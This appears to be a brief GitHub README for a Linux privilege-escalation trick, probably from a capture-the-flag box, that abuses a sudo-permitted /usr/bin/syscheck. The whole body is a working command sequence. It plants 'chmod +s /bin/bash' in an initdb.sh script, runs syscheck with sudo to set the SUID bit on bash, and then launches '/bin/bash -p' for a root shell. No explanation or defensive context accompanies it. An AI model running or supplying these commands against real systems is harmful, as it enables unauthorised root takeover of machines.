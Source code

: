 # sudo--l-usr-bin-syscheck

![image](https://github.com/user-attachments/assets/9e792474-cc87-4b29-9c28-24c4465442ad)

# Create the initdb.sh script that sets the SUID bit on /bin/bash
echo "chmod +s /bin/bash" > /path/to/initdb.sh
chmod +x /path/to/initdb.sh

# Run /usr/bin/syscheck with sudo privileges
sudo /usr/bin/syscheck

# Verify the SUID bit is set on /bin/bash
ls -ld /bin/bash

# Run /bin/bash with the -p option to get a root shell
/bin/bash -p

